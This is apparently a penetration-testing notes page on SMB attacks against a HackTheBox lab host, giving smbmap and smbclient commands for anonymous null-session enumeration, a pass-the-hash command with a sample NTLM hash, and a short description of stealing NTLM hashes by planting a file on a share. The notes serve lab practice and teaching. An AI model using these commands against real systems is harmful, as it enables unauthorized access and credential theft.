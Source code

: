 # SMB

## Null Session

**smbmap**:

```
 smbmap -H querier.htb -u anonymous -d localhost
```

Use the -R flag to recursively list everything.

**smbclient**:&#x20;

```
smbclient -L \querier.htb
```

Enter any password or supply the --no-pass flag.

## Pass The Hash

The NTLM hash of a user’s password is used in the NTLM challenge-response authentication protocol. Therefore, if you know the user’s NTLM hash, you can impersonate that user for services that rely on NTLM challenge-response.

_Note: If you just have the NT hash, then you can just input the NT hash twice. No one really checks the LM hash anyways._

```
smbmap -u USERNAME -p 0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B -H HOST
```



## NTLM Hash Theft

If you have access to a network share, then you can drop a file in there that will result in a user's NTLM hash being stolen when they navigate to that share.&#x20;

TODO: Link main article in post exploitation

